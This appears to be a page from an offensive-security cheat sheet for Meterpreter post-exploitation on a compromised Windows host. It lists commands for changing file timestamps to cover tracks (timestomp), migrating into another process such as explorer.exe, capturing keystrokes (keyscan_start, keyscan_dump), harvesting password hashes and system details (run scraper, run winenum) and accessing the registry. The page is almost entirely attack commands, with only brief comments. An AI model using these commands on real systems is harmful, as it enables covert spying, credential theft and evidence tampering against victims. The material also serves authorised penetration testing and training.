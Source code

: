 ## <mark style="color:red;">Change File Timestamp</mark>

modify the date and time of file and folder modification and access

```
timestomp -h

# list the value of MACE (modified-accessed-created-entry)
timestomp /path/to/file -v 

# change the creation time
 timestomp /path/to/file -c  "05/25/2020 01:01:01"
 
 #  change last access time
  timestomp /path/to/file -a  "05/25/2020 01:01:01" 
  
 # change the last modify time
  timestomp /path/to/file -m  "05/25/2020 01:01:01"
```

## <mark style="color:red;">Process Migration</mark>

```
migrate -h
 migrate [pid]
 migrate -N [process name]
```

## <mark style="color:red;">Keylogger</mark>

#### migrate to explorer.exe (for better performance)

```
keyscan_start
keyscan_dump
keyscan_stop
```

## <mark style="color:red;">Dig Info and Enumeration</mark>

net info, pass hashes, registry, etc.

```
run scraper   
run winenum
```

## <mark style="color:red;">Interact with the Registry</mark>

```
reg -h
```
